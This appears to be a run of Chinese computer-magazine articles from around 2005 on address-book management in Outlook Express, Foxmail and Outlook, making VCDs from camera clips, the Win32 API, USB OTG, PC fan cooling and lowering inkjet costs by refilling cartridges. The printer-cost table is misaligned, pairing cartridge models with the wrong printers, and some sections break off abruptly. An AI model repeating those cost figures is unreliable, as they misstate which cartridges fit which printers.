单击“通讯簿→新建→新建组”打开组编辑窗口，输入组名（如：电脑爱好者）。再单击“选择成员”按钮，选中相应联系人，按下“选择”按钮即可把他们加到“电脑爱好者”组中。此时在通讯簿中就会多出一个组来，单击它，右边窗格中会列出该组的成员。
如果想给某个组的所有成员发信，可以选中该组，再选择单击“操作→发送邮件”即可向该组所有人发送邮件。

#### 5. 发一张名片给朋友

当你在“通讯簿”中创建一个联系人后，就相当于创建了一张电子名片（vCard），联系人信息就存储在这张名片中。如果想将自己的某位同事介绍给客户，只要在OE中打开一个新邮件编辑窗口和通讯簿，然后用鼠标从通讯簿右侧窗格中拖动该同事的联系人项到新邮件窗口的编辑区即可，这样该联系人的vCard便被加放到电子邮件的附件中了。
当收件人接收到该联系人的邮件后，用鼠标单击vCard，选择“打开”命令，再在打开的窗口中选择“打开”项，然后在打开的窗口中单击“添加到通讯簿”按钮，即可将其添加到通讯簿中。

**小提示**
如果想在一些邮件中带上自己的名片，以便别人快速在他们的通讯簿中加入你的信息，可以先在通讯簿中创建一个写有自己信息的联系人项，要加入名片时，只要在新编辑邮件窗口中单击“插入→我的名片”即可。当然所插入的名片很可能不是你的，因此首先需要单击“工具→选项→撰写”，在“名片”项下，勾选“邮件”，在联系人列表中选择你自己的vCard，如果没有，可以自己新建，然后再取消“邮件”勾选。

### 我用Foxmail怎么办？

虽然OE提供有导入和导出通讯簿的功能，但Foxmail所具备的交流功能更方便。启动Foxmail，打开“地址簿”窗口，在“工具”菜单中即可找到“导入”和“导出”两个选项。通过这两个选项，我们就可以直接将OE“通讯簿”的“.wab”文件导入或导出，让Foxmail也用上Windows的通讯簿。

### 白领必备——Outlook中的联系人

Outlook和Outlook Express比起来，名字上短了一些，功能上却增加了不少。本刊2005年第3期《Outlook快乐办公每一天》一文对于Outlook有比较详细的介绍。这里着重对于其通讯录进行介绍。
进入Outlook，按下左下角的“联系人”按钮，右边会看到添加的联系人。在这里添加联系人很简单，只要双击窗口右侧的空白处，即可调出联系人添加窗口，跟着的操作就和OE的一样了。与OE明显不同的是，Outlook可以为联系人添加照片，在“名片管理”的导出项中，也能直接将名片导出到Outlook。

#### 实例1: 从名单表格中快速导入Outlook通讯录

前面介绍的Outlook或OE添加联系人的方法，都是手动方法逐一添加，比较麻烦。很多情况下，我们可以从公司内部网、校友录或是网站上获得一个联系人清单，我们一定很希望把它导入Outlook，自动添加到通讯录中。但名单格式往往形形色色，更关键的是，我们拿到的“花名册”每一列的名称和Outlook的往往不太一样，怎么让Outlook知道那一列对应联系人中的某一项呢？
举例来说，假设拿到的名单是这样的：

| 姓名 | 移动电话 | 所在城市 |
|------|----------|----------|
| 张三 | 88666688 | 北京     |
| 李四 | 44447777 | 天津     |
| 王五 | 33550099 | 上海     |

第一步：由于表格格式不标准，先选中这些文字，然后按下“Ctrl + C”键，复制它们。
再打开Excel，选择“编辑→粘贴”，会发现项目自动添加到合适的行列中了。保存文件，命名为“list.xls”;
第二步：进入Outlook，按下左下角的“联系人”按钮，在右侧空白处双击鼠标，随便输入一些信息，然后保存。
第三步：选择“文件→导入和导出→导出到一个文件→以逗号为分隔符（Windows）”，然后按“下一步”，选择一个保存位置，保存为“new.csv”;
第四步：双击打开new.csv，你会看到文件第一行就是联系人中的所有字段（也就是所有需要输入的内容），下面对应的就是刚才随便输入的信息；
第五步：接下来的工作很明显了吧？只要用刚才保存好的“list.xls”中的内容覆盖“new.csv”中的内容，然后再导回通讯录，就大功告成了。打开“list.xls”文件，选中“姓名”中的所有内容，复制下来，粘贴到“new.csv”中的“中文称谓”一栏。同样方法，把“移动电话”和“城市”也复制到相应的栏目中。
第六步：复制完毕后，现在new.csv就已经完成了。回到Outlook，选择“文件→导入和导出→从另一个程序或文件导入→以逗号为分隔符（Windows）”，选择new.csv，按几次“下一步”之后就完成了导入。再看看联系人清单，是不是已经看到画面了？

**小提示**
**通讯簿能不能放在网上？**
很多朋友经常要在不同地方收发邮件，这时要用通讯录就有点麻烦了。其实，有不少替代方法，我们以前曾经介绍的Web邮箱的通讯录就能解决这个问题，不过Web邮箱的登录有点麻烦。你还有一种选择：QQ邮箱。在QQ主界面按下最上方的信封标志，进入QQ个人助理，按下“地址簿”按钮，就会看到熟悉的地址簿界面了，用法和OE几乎一样。惟一不同的是，这里多了“上传”和“下载”键。当你输入好的地址簿之后，利用“上传”将通讯录传到服务器上，这样就可以从任何地方“下载”回来用了，很方便吧？

## 用刻录制分享我的DC短片、分享我的世界

现在，绝大多数数码相机（以下简称DC）都具备了“短片拍摄”功能。如我所用的O记（奥林巴斯）C-770UZ就拥有640×480@30fps的录像能力，还可以在录像时变焦。拍出来的短片完全可以做成VCD或放在网上与网友分享。

但一般DC的短片拍摄功能都会受到拍摄时间的限制（这也是为什么该功能叫“短片拍摄”的原因），因此拍出来的都是几分钟、几分钟的一个个片断。要把这些片断都做成VCD，就必须先将它们“整合”起来！

### 前期准备

首先需要一台刻录机……这不是废话，因为有很多朋友都以为自己的光驱是具有刻录功能，这个观念是不正确的，具有光盘刻录功能的光驱一般比较贵，在前端面板上也分别有三个关于读取速度、写入速度和擦除速度的标志（见图1）。除了刻录机还需要有具有烧录能力的碟片称为CD-R或CD-RW。推荐大家使用CD-R，因为现在家用VCD机还是有很多都不认CD-RW碟片的。准备好这些后，接着就是把你的“原料”——DC短片，从DC拷贝到电脑里待命。



### 动手“整合”

我的C-770UZ拍摄出来的短片是MPEG-4格式的，而VCD的格式是MPEG-1，首先要将短片的格式转换成VCD的标准格式。这一步用TMPGEnc是最好不过的了。

第一步：启动TMPGEnc后会自动启动“项目向导”，不用理会；单击“取消”按钮进入主窗口（见图2）。在主窗口中“输入影像”一栏里输入DC短片在电脑中存储的路径或者通过选择浏览的方式选取你要转换的DC短片。



比如你的短片放在C盘下的myvideo文件夹里，可以通过“浏览→C盘→myvideo”，然后选中相应短片文件，再单击确定。由于MPEG-4格式的片子是声像结合的，所以“输入声音”一栏照抄“输入影像”即可，新版本的TMPGEnc则会自动帮你填写。“输出文件”一栏可以采用系统默认的输出地址即短片所在的地址也可以由你自己指定一个地址，比如想把文件放在指定的D盘VCD目录你可以填入“d:\VCD\短片的名字”。

第二步：在主窗口右下角，单击“读取”按钮，在弹出的浏览框里面选择配置文件。因为要制作的是能在国内VCD机上播放的VCD，所以选择VideoCD（PAL）.mcf文件（意为PAL制式的VCD文件）。一般来说到了这里文件的转换准备工作已经完成了，只要单击“开始”按钮便马上进行短片格式转换。但毕竟不是所有的短片都录制得很好，难免有些会出现色彩暗淡或者拍摄时光线不好造成短片过暗等情况，因此我们还需要用TMPGEnc中相应的调整功能对短片画面质量进行改善。

第三步：单击主窗口中的“设定→视频→运动检测精度”，并设置为“最高画质”。

第四步：选择“高级”选项卡，在这个选项卡下选中“消除鬼影”、“消除噪点”、“锐化边缘”以及“高级色彩校正”，单击“确定”按钮返回主窗口。经过这样的一番设定，原本质量不尽如人意的短片将得到很大的改善，至于原本质量不错的短片就不必这样弄了，免得弄巧成拙。

第五步：单击主窗口的“开始”按钮，并给足耐心等待格式转换的完成。一般来说，这个转换过程都会花上好几个小时。转换完成后，关闭TMPGEnc，然后打开转换好的短片（转换好的短片后缀名是mpg）试看一下，觉得质量OK就可以将它刻录到光盘上做成VCD了。

第六步：刻录光盘还是用Nero Burning ROM这个软件（以下简称NERO）。启动NERO在主窗口中选择“照片和视频”下的“制作视频光盘”，此时将弹出一个新的窗口。

第七步：单击“ADD”按钮进入浏览框（见图3）；在浏览框中选择转换为MPEG-1的短片，然后单击浏览框中的“ADD”按钮即可将短片加入到刻录列表中（见图4）。加入完毕后浏览框会再次弹出来，如果还想选择并加入其他短片可以按照刚才方法重复一遍，如果不需要可以单击“FINISHED”来结束加入短片的动作。不过要注意的是在加入短片的过程中要注意刻录列表下方的容量指示，尽量不要让蓝色的容量条超过650MB的刻度，如果超过了也千万不要超过700MB的刻度，否则无法刻录出一张完整的VCD。



第八步：搞定刻录列表后，一路单击右下角的“NEXT”按钮，直到出现选择刻录机界面。在Current recorder（当前刻录机）栏中选择正确的刻录机，并在DISC NAME（盘片名）栏中给这张VCD光盘取个名字，然后将刻录速度设定在“32X”以下（刻录速度越慢，刻录时间越长，但刻录质量越好），最后单击右下角的“BURN”按钮马上开始刻录VCD。当进度窗口的进度100%弹出提示完成提示后，一张VCD就制作好了！马上拿到家里的VCD播放机上去和家人一起分享你的“大片”吧！



### 小提示

怎样用数码相机拍好DV片段？
DC虽然具有短片拍摄功能，毕竟不是专业的DV，因此要用它拍好一个短片，还是有点技巧的。首先是要尽可能地保证光线的充足，特别在室内，将被拍摄的主题转移到光线更好的地方，将室内的灯全部打开，甚至还可以利用从窗户透进来的自然光来增强室内的光线强度。这样拍摄出来的片子会更加清晰，颜色也会更讨人喜欢。其次是要保持拍摄时的稳定，这样拍出来的片子，画面才不会左摇右晃，让人看着发晕。倚靠一堵墙、将手撑在桌面上、双手持机，又或者使用三角架等方法都可以很有效地保持机身的稳定。再者就是巧妙地利用拍摄时的可变焦功能来让拍摄重点更加突出，比如生日聚会时，吹生日蜡烛的过程就可以给在许愿中的“寿星仔”一个特写，将幸福甜蜜的表情记录下来。如果你的DC不具备变焦功能，你还可以“手动”变焦，把DC拉近一点就可以了。

（伤心尤加利树）

## 稀饭魔语大辞典

在大多数程序中选择菜单“文件→打开”，弹出的都是同样的文件打开框，难道每个程序员编写的文件打开都是一致的？无论是ADSL还是FTTB，QQ和MSN都能正常使用，这些程序在编写时并不能预测使用者的网络类型，那为什么它们都能正常使用呢？这是因为它们使用了相同的API接口。

### 本期名词: API

#### API是什么

全称: Application Programming Interface（应用程序编程接口）

#### 为什么要提供API：

1.  对系统安全和稳定性的考虑。如果每个应用程序都能直接对系统底层（比如直接读写硬盘），那就很难保证这些应用程序不会做出什么出格的事，Windows 9x虽然提供了大量的API，但其对操作系统底层的保护还是很有限的，而Windows 2000/XP则完全禁止了跳过操作系统直接访问底层的操作，所以很多在Windows 9x下能够正常运行的磁盘修复工具到了Windows 2000/XP下就会运行错误；
2.  对系统扩展性以及避免重复开发的需要。苹果公司早期的操作系统相对封闭，结果最后由于平台上的软件匮乏而使大多数人放弃了这个操作系统。另外，如果事无巨细，程序员在给程序添加文件保存功能时就必须直接和硬盘的输入输出打交道，或者显示一个程序窗口就必须直接编写出把像素点填充进显存的代码，那恐怕今天就不会有这么多程序和程序员了。操作系统已经将很多常用的功能封装起来，这样程序员就能避免重复开发，腾出更多的时间在程序的逻辑实现上。

API是什么: 它是应用程序用以请求和执行由计算机操作系统掌控的底层功能的方法，几乎所有操作系统都提供了API，和我们关系最密切的Windows提供的API集合称为Win32 API函数。就好比你（应用程序）需要发一个文件到A公司（硬盘），原先需要自己先查清路线，然后亲自上门送文件，而有了快递公司（API），则只需打个电话（调用相关API）就能完成发文件的工作。

#### Win32 API在哪里

Windows的API都以DLL文件的形式出现，系统目录下的Kernel32.dll、User32.dll、GDI32.dll包含了所有系统底层的API。

#### 查看API函数

用Dependency Walker（下载地址：http://www.newhua.com/cfan/200517/depends.zip）即可查看DLL中的输入函数（即该DLL需要使用的其他DLL中的API）和输出函数（即该DLL提供给其他应用程序或DLL调用的API），通过分析EXE中调用的API还能判断程序的类型。

（木门）# 随身的数据仓库——OTG技术全接触

对于广大“摄”友来说，最痛苦的事莫过于拍照时储存卡满，而此时却无处备份照片。要是在以往，接下来要做的事就是令人头大地在相机上删照片。对于MP3用户来说也是一样，存在播放器里面的歌曲，如果找不到电脑更新，就只能“一辈子听到底”。但随着OTG设备的出现，这种情况将一去不复返……

# 什么是OTG？

OTG是USB On-The-Go的缩写。顾名思义，OTG是一种基于USB技术的数据交换标准，它主要解决不同USB设备间在“脱机”状态下的数据交换问题（也就是在脱离PC的情况下交换数据），于2001年12月18日由USB Implementers Forum公布。需要注意的是，如果您打算使用OTG，那么您至少要拥有一个符合OTG规范的设备，否则无法交换数据。

# OTG的类型

不少用过OTG设备的人都曾有过这样的疑问：为什么我的OTG只能从别的设备读写数据，不能被别人读写；而有的OTG既能读写别的设备，又能被别的设备读写呢？说到这点，笔者就要从OTG的类型说起了。目前的OTG类型分“单向OTG”和“双向OTG”两种。所谓“单向OTG”其实就是指只能读写别人的USB设备。“双向OTG”则正好相反，它既能读写别人，也能被别人读写。双向的OTG设备更接近传统意义上的PC操作，因此易用性更佳，当然价格也会更贵。



# OTG的工作原理

OTG的本质其实就是模拟一个主控USB设备，从而实现脱机情况下的数据交换。比如，当您把数码相机连上OTG设备后，数码相机便会将OTG设备“误认”为PC，并把读写控制权交给它。此时您就可在OTG设备上直接“操控”数码相机里的数据，进行照片备份、删除等操作。





说到这里，您可能会问：一般数码设备读写都需要耗费大量的电力，PC上有外置供电，那么OTG设备呢？这没有问题，因为数据指令的传输并不耗费多少电力，而对于真正的电力杀手来说——读写数据的耗电问题也会因OTG设备自带的大容量电池而瓦解。当然，目前的OTG设备在设计时都会考虑耗电问题，如采用闪存作为储存介质和使用OLED等，毕竟大容量电池又会带来便携性方面的问题。但对于采用硬盘作为存储介质的OTG设备来说，如果自身不带电池，那么是否能实现OTG，就全看与之连接的另一个USB设备是否能提供足够的电量了。

# OTG的兼容性

前面说过OTG只是一个规范，既然它是规范，那么便会与其他规范一样面临兼容性问题。

OTG目前主要面临的兼容性问题来自数码相机，最罕见的症状就是无法识别数码相机。当然，比较常见的则是降速，比如数码相机和OTG设备都支持USB2.0，但实际上只能以USB1.1的速率进行连接（大多数OTG设备都会内置检测程序，针对不同设备使用不同的连接速率）。

设备间的不匹配也是另一种常见的兼容性问题。比如，华旗的P670可以实现浏览、删除和管理多种数码相机中的照片文件，但只要碰上佳能的数码单反相机，P670的文件管理功能就完全失效，而只能进行“整盘拷贝”了，这是因为佳能单反相机采用的PTP规范和P670的开放式OTG规范之间无法匹配。除此以外，单向OTG设备也很容易和双向OTG设备发生不匹配的现象，造成功后者的能力无法得到完全的发挥。

# OTG的前景

未来的OTG设备将会走高集成化之路，如集成MP4、MP3，甚至是PDA的功能。从Palm最近发布的LifeDrive来看，这种趋势已十分明显。可以肯定的是，随着数码相机等应用的兴起，OTG设备的应用前景将非常广阔。

(广东 Wincat)

# 浅谈风扇对计算机的整体散热的影响

持续的高温，让自己的爱机经受着不断的煎熬。冬季往往被忽视的散热性开始被玩家重视起来。夏日炎炎，如何做好自己爱机的散热工作呢？且听小编给您一一道来。

# 整体散热的意义和必要性

提到散热，大多数人首先想到的是CPU散热器。没错，中央处理器是计算机的发热大户，它在计算机整体散热中占了很重要的一环，但它不能完全代表整体散热。在计算机主机功耗已经达到250W甚至更高的今天，“头痛医头，脚痛医脚”的散热方法最终也不能彻底解决计算机的散热问题，因此整体散热理念应运而生。整体散热就是要让计算机主机整体达到一个最佳的散热状态，而不是单纯地照顾中央处理器或者显示卡等高热配件。因此，整体散热更科学，更高效。

目前整体散热最常见的有整体风道设计和全液冷设计两种。液冷多为用一个或多个散热排散热，液冷剂依次或同时流经中央处理器、显示芯片、主板的北桥甚至硬盘盘体以吸收它们产生的热量。目前它属于高端玩家或者静音一族的利器。而风冷则是我们今天讨论的重点。

# 机箱的整体散热

风冷的整体散热最主要的是依靠主机内的风道设计。如果大家对于机箱内部风道的形成概念还不明白的话，我们不妨通俗一点来解释。风道就是空气在机箱内运动的轨迹。合理设计的风道，可迅速带走机箱内的热空气。这就好比“穿堂风”，屋子的前后门同时打开，可以加速空气流动，使屋内倍加凉爽，此时的房间就是一个很好的风道。

# 你知道吗？什么是38度机箱？

38度机箱是指在35度室温中，要求机箱的整体散热能力必须保证CPU散热器表面测试区域的平均空气温度保持在38度左右甚至更低。对于CPU、显示卡和硬盘这样的散热大户而言，这种简单的“前吸后排”式的散热方式，已经是“受益匪浅”了。并且对于所有电脑配件来说，这种方式的作用都很明显。这样的前后风道设计，实际就是主机设计了一个“穿堂风”。此外，为了加强机箱内部的散热，我们还可以在机箱的侧面板上安装风扇或在机箱顶部安装一个抽风风扇，以及时地排出积聚在机箱内部上方的热空气。





# 小提示

如何正确安装机箱风扇？我们知道了风道是由机箱内的风扇转动强制形成的，因此，机箱风扇对于风道是必不可少的，而机箱内风扇的多少，位置都会影响风道的强弱和轨迹。因此，我们就要注意到风扇的安装位置并且不要安装过多的机箱风扇，合理地前置和后置散热风扇就可以了。另外，我们尽量使用大型的低转速机箱风扇，因为8厘米甚至12厘米的叶面所带来的风量和6厘米是无法比拟的，同时，大风扇低转速运转时的噪音也低得多。拥有一个合理的风道以后，我们还需要注意机箱内部的走线。机箱内的走线要整齐，尽量不要阻挡风道，因为机箱内部线路凌乱是散热的最大障碍。

# 散热的同时还须静音！

ATX架构的现状是高热高噪音，即要想解决高功耗处理器的散热问题，就要采用高转速的暴力风扇。那么，我们在整体散热的同时，可以解决高噪音的问题吗？答案是肯定的。

上述高热高噪音指的是非整体散热的情况，而在利用了风道的整体散热环境，完全可以降低CPU散热器的风扇转数。因为前后的机箱风扇带来的风量完全可以弥补CPU散热器风扇降速带来的损失。降低风扇转速带来的直接好处就是一静！

笔者的AMD Athlon 2500+超频到2.4GHz(200 x 12, 1.625V电压)，仅用了降速到1600转的TT 10A。在室温四十余度的环境(笔者的工作室，无空调，郁闷)，CPU始终没有超过60度，包括“跑”最高位Super pi。这个温度甚至略低于没有采用整体散热的采用全速TT 10A的3200+主机。

也许有人要问，怎么降速？其实实现风扇降速的方法有很多。有些主板比如升技(Abit)等本身就带有三针风扇的自动电压调节功能，以智能控制风扇转速。如果没有此类功能，动手能力稍强的朋友可以通过焊接电阻来实现风扇降速，或者最省事的，通过软件(如FanSpeed)进行风扇调速。

> 你知道吗？
风扇的散热能力是用什么指标来标识的？
风扇的散热能力取决于风扇转动时产生的最大流量。风扇的流量大都采用CFM为单位（英制，立方英尺/分钟，约为0.028立方米/分钟）。50×50×10mm CPU风扇会达到10 CFM，60×60×25mm风扇通常能达到20~30的CFM。所以，购买风扇的时候，尽量选择CFM参数一样，但转速更低的产品。
对散热器风扇的效能（例如流量、风压）影响很大的因素还有风扇扇叶直径和轴向长度、风扇的转速和扇叶的形状。一般好的风扇除了风量大和风压高之外，其本身的可靠性也相当重要，所以风扇使用的轴承形式在此显得非常关键。

近些年来各大散热器厂商在轴承方面推出的新技术，诸如磁浮轴承、水波轴承、磁芯轴承、来福轴承等也都是对上面这几种形式轴承加以改进而成，运作原理还是没有变化。普通风冷散热器上主要使用含油轴承和滚珠轴承。在产品中高速风扇一律使用滚珠轴承(ball bearing)，而低速风扇则使用成本较低廉的含油轴承(sleeve bearing)。

# 小知识 双滚珠轴承

每个风扇都需要两个轴承。一些风扇上标着“BS”的字样，是单滚珠式轴承，BS的意思是“1 ball + 1 sleeve”，单滚珠式轴承依然带有含油轴承的成分，只有双滚珠轴承(Two Balls)才可以算是真正的滚珠轴承。与单滚珠轴承相比，双滚珠轴承的优点是：1.转速高；2.耐高温和低温；3.摩擦系数低；4.寿命长；5.品质稳定。但是不可忽视的是，双滚珠风扇在启动时噪音较大，但运行一段时间后就正常了。

在价格允许的范围内，要尽可能的选用低噪音长寿命的风扇。来福、Hypro、单/双滚珠风扇都值得考虑。如果配合诸如折缘卷边(AVC公司的专利技术，只用于AVC风扇)、侧进气框架之类的设计，更可达到令人满意的效果。液压和纳米陶瓷轴承风扇更是能够兼顾高性能、低噪音和高寿命的需求，当然价格也相对昂贵。

要强调一下的是，散热片的材质和形状对散热效果也有很大的影响，风扇和散热片间要配合良好才能发挥最佳性能。

一般说来，铜质的散热片，其导热速度要比铝材的散热片大，散热效果更好一些。此外，散热片的散热能力和它的底部厚度以及散热面积都有关系。总体说来，底部越厚的，热容量越大，能带走的热量也越多；散热面积越大，即散热片的鳍片数越多，导热速度也越快。同时，大家在选购时也要注意散热片的加工精度。有些杂牌风扇的散热片就是加工的很粗糙，对散热不利，而一些大的厂家，于细微处见功夫，其加工工艺就相当的成熟完善。

另外，还有一个就是散热片的体积。有很多朋友都是买到风扇后，安装时才发现自己的机箱空间不足以安放那个大家伙，因此，大家购买时还要做到自己心中有数。另外选购时还须注意形状、空隙大小等多方面因素，保证气流能够顺畅地通过尽可能大的热交换面，这样才可以达到散热的最佳效果。

# 未来整体散热之星——BTX架构

主板构架革命了几次，散热性能也同时革命了几次，随着计算机整体功耗的增加，整体散热的散热效能越来越显著了。最好的证明就是即将到来的BTX架构。BTX主要改进的便是散热结构。

同ATX主板相比，BTX主板上的每个组件位置发生了明显的变化，CPU不再是位于被“围剿”的中心，而是放在主板前方的中间，南、北桥芯片则放在CPU的后方，于是当CPU的热气从散热片排出时，会顺势经过南、北桥芯片而将两者的热气一起带走。

BTX架构这样的排列方式其实就是按照整体散热风道的概念，通过一个大尺寸风扇从机箱前面板吸入冷风，让热气以最接近直线的方式经过CPU、主板芯片组最终再将热风吹出机箱，如此来组建一个良好的散热风道。为了达到最佳风流的散热效果，新一代的BTX风扇和过去大不相同，过去风扇直接安装在CPU的散热片上，用意是将冷空气往处理器吸。而BTX的风扇和CPU呈90度，用意是让冷空气经过CPU上的散热片导向后方。

BTX架构解决了ATX高热高噪音的现状，一个低转速的风扇即可让BTX架构下的系统正常工作。



> (北京 zhpa)

# 每天节省10块钱——软硬兼施降低打印成本

这段时间，节约可是个热门话题，节约用水、节约用电……其实节约应该有两个层面的含义，一方面是直观的感觉，能够节省金钱方面的开销；另一方面，其实节约是一种精神，能够表明我们对于环境与资源的一种负责任的态度。而我们今天就从日常工作中最常见的打印节约说起，帮助大家养成几个实用的小习惯，让大家轻而易举地节约喷墨打印机的打印成本。

# 走出喷打的成本误区

目前在喷打选购的过程中，存在一种误区：侧重考虑首次购置打印机的一次性成本，而对于后续耗材成本考虑不够，结果导致高耗材成本使得某些用户叫苦不迭。那么，如何走出这种消费的误区呢？

对于打印机这种既存在一次性购置成本，又存在后续耗材消费成本的产品。在这种条件下，你如何合理地计算自己每次消费的成本呢？一个合理的办法是将你每次使用的成本进行分离，一部分成本是用来抵消你一次性的入门费(月租费的成本)，一部分成本是自己每次消费另外支付的成本(通话费等)。就打印机而言，你每打印一页文档的成本其实也包括两部分，一部分成本是用来分摊一次性购置打印机的成本，这部分成本会随着打印量的增加而下降；另一部分是每次打印消耗墨粉的成本，这部分成本基本上不随着打印量的变化而变化。在选购打印机时，忽视任何一部分成本，或者对这两部分成本的不同特性缺乏正确认识，都会导致用户在选购打印机产品的过程中偏离理性的方向，造成不必要的损失。这是帮助消费者合理选购打印机的理论框架。

我们通过简单的单张打印消耗墨水成本的公式计算：单页打印成本 = 墨盒价格 / 打印页数。

这里我们以市面上销售价在380元左右的入门级喷墨打印机为例(分别是：爱普生ME1、HP deskjet 3848、佳能PIXMA iP1000、利盟Z55)，向大家分析一下各自的打印成本(见附表)。

# 附表 四款入门级喷打的打印成本一览表

| 打印机型号 | 墨盒型号 | 打印量 | 市场参考价(元) | 单位成本(元) | 墨盒型号 | 打印量 | 市场参考价(元) | 单位成本(元) |
|---|---|---|---|---|---|---|---|---|
| HP deskjet 3848 | T057 | 330 | 40 | 0.121 | T058 | 180 | 70 | 0.389 |
| 佳能 PIXMA iP1000 | C8816AA | 220 | 140 | 0.636 | C8817AA | 190 | 165 | 0.868 |
| 利盟 Z55 | 18L0032 | 600 | 260 | 0.433 | 18L0042 | 450 | 280 | 0.622 |

# 每天节省10块钱——软硬兼施降低打印成本（续）

呢！

+   - a. 将多页打印到一页上节省纸张
  在打印设置界面中选定这个型号，按“属性”，进入设置界面，“页面布局”项目中可以设置将多页打印到一个页中。
- b. 尽量降低草稿质量降低墨水消耗
  在属性界面中选择“质量”标签，其中的“对象”列表中选择“常规”，点旁边的“详细信息”按钮，在新的对话框中将“使用节省墨粉”选项选中，并且将“墨粉浓度”往左拉一格，减少色彩浓度，可以降低消耗。
- c. 强制使用黑白模式节省彩色墨水
  在属性界面中的“质量”标签下，还有一个“色彩模式”的选项，一般默认为“自动检测”，这种情况下，只要我们文章中有黑白灰以外的颜色，打印机就会以彩色方式打印，但很多时候我们打印的一份初稿不需要彩色的，所以就在这设置为“黑白”，强制不使用彩色打印，节约墨水。

> 小提示
如果同一台电脑上连接了不同的打印机，一定要在选定对应的型号后再按“属性”按钮，因为不同的打印机安装不同的驱动程序，而不同的驱动程序提供的设置功能又是不通用的。

+   小技巧
★设置爱普生喷打的打印质量
爱普生喷墨打印机除了屈指可数的几款外，其他都是使用的联体墨盒。爱普生喷打的照片打印功能相当出色，并且有很多个性化的应用，其质量设置菜单上有5个选项(草稿、文本、文本+图像、照片、优质照片)。在一般情况下，我们只要选择“文本”打印质量就可以了；而在进行照片打印时，则可以选择“照片”打印模式。
★设置HP喷打的打印质量
HP喷打都使用联体墨盒，并且能够进行缺墨打印，因而不必担心像佳能和爱普生那样，缺墨了就不能继续打印的情况。在HP喷打的设置菜单中，对于打印质量的设置有(最佳、正常、普通、快速)四个选项。在一般情况下，进行文本打印的时候，我们完全可以选择“普通”就可以满足打印需要了。

# 2. 办公室打印机注意监控

办公室的打印机最大的特点就是为了方便大家使用，而采用了网络打印共享。可是这就有个问题了，只要能连接到打印服务器上，谁都可以打印文稿，浪费在所难免。那么怎样控制好我们的打印机，时时刻刻都了解到谁在使用打印机，肯定会更好地控制打印成本。

装上Print Inspector打印监控软件，在界面中选择“Add printer for monitoring”按钮，把要监控的打印机添加到监视列表中。以后只要打印机进行打印，Print Inspector就可以监视并且记录下来是哪些用户在打印，文档的标题，页数等信息也清晰可见。当然，如果发现有“不明飞行物”通过网络进行打印，也可以点选那个正在打印的项目，直接将它“Cancel”取消掉。

# 将省墨进行到底: 注墨

为了提高喷墨打印机所配置的墨盒的重复利用率，同时降低使用喷墨打印机的打印成本，通常可以在墨盒内加入一些为喷墨打印机配置的代用墨水。常见的墨水灌注套件包括:钻头、皮老虎，带有注射针头的墨水瓶或单独的针头、墨水瓶等，你可能还要准备石蜡、针或尖细的螺丝刀等。注意，这里的工具并不能每次全都使用上。用户应根据打印机和墨盒的型号到电脑城选购相应的兼容墨水。

# 1. 爱普生篇

虽然相对其他品牌打印机的墨盒而言，灌注爱普生墨盒操作最简单，但风险也最大。因为其多使用分体墨盒(即喷头与墨盒分离)，质量不良的墨水会堵塞喷头。说爱普生打印机墨盒的灌墨比起其他打印机都方便，是因为它是与喷头分离的，根本用不到在其上打孔等操作，你只需一个一次性注射器即可完成任务，具体灌墨方法如下(以型号T007墨盒为例):

在打印机的黑色墨尽灯亮时取出黑色墨盒，用一次性注射器吸取约7ml、8ml的墨水。撕开墨盒标签找到灌墨孔，将墨盒的出墨孔向上，并倾斜至45度，以防止在灌墨快满时墨液从墨盒上部的通气孔中流出。将一次性注射器中的墨水慢慢地注入出墨孔即可(见图1)。有人建议先快后慢，笔者认为速度慢一些好，可以防止气体进入或滞留内部，如爱普生墨盒灌墨图。请大家在实践中多加总结，不要人云亦云，因为只有实践出真知。用纸擦干净出墨孔附近的墨水，随即将其装入打印机。经过一至二次的喷头清洗，你就可以用了。



为彩色墨盒灌墨的操作与黑白的类似，只不过要用三副一次性注射器重复进行三次操作，关键在于注入的墨水量可能都不一样。

# 2. 佳能篇

佳能打印机使用的一体式墨盒多些。当墨水用完后，喷头也随之浪费，导致打印成本过高。曾经很流行的BJ-10ex墨盒主要由墨盒体及其中的墨水海绵、喷头单元、侧盖、顶盖等组成，它利用其中的网状墨水过滤器用来滤除墨水中的杂质、气泡和灰尘，墨盒体上的通气孔的作用则是导入空气，使得墨盒内压力得到平衡。分体式墨盒的打印成本要低很多。BCI10/11/21等墨盒，多可以使用墨水管填充，这样不会损伤其中海绵，所以填充次数可多于用针管填充的BC01/02、BC05/06等墨盒。

# a. 灌注带喷头的墨盒

佳能带喷头的墨盒常见的有两类，一类是通气孔(灌墨孔)在侧面的，比如黑色的BC-01/02/03墨盒，彩色的如BC-05/06/09墨盒；另一类是通气孔在上面的，如黑色的BC-20/23墨盒，彩色的BC-22/22e/29F墨盒。灌墨孔是生产时加墨水用的，封口的塞子上有个很小的眼为通气孔，是用来保持内外压力平衡的。两类墨盒的结构和加墨方法基本相同，具体步骤如下:

用墨水随带的钻头插入通气孔的小眼略转两圈，吃住力后，轻轻拔出通气孔上的塞子。如果是彩色墨盒需先用牙签分别判断好颜色。将灌墨针头插入孔内灌墨，缓慢注射毕后将塞子压回。注意，加墨时一定要慢，以免溢出来，特别是彩色墨盒，几种颜色的灌墨孔距离较近，一旦溢出，渗入其他颜色的墨格，墨盒就会因混色而无法使用。加墨以不超过海绵的容纳能力为限，否则在打印时容易发生甩墨现象。最后，使用打印机清洗墨头功能清洗一次喷头。

> 小提示
BC-03墨盒有两种样式，一种是前面叙述过的，另一种是侧面带一个透明的储墨室，室壁上的灌墨孔用一个钢珠封住。它的加墨方法是，用随墨水带的顶杆将钢珠强压入储墨室，注完墨水后用随带的新钢珠将灌墨孔封住。如果是使用针管注射而没有新钢珠，可以破坏一个墨盒，使用旧钢珠堵洞。

# b. 直接在墨盒海绵上灌注



> 小提示
不要加得过满，超出海绵的容纳能力后，墨水会从上面的通气孔溢出，这时要将泄出的墨水擦掉。

# 3. HP篇

HP的黑色墨盒可能带有气囊，比如C1843A, 51625A, 51629A/G等几种，它们的灌墨孔在喷头的旁边。一般的灌墨方法是:在墨盒上部钻一个孔，灌墨后用塞子堵上，然后再用注射器等工具调节气囊压力。此方法的明显缺陷有二:一是钻孔时易导致塑料碎屑掉入墨盒内部;二是需要的辅助工具太多。市场上有一种神杰品牌墨水，它对此类墨盒有专利填充方法:

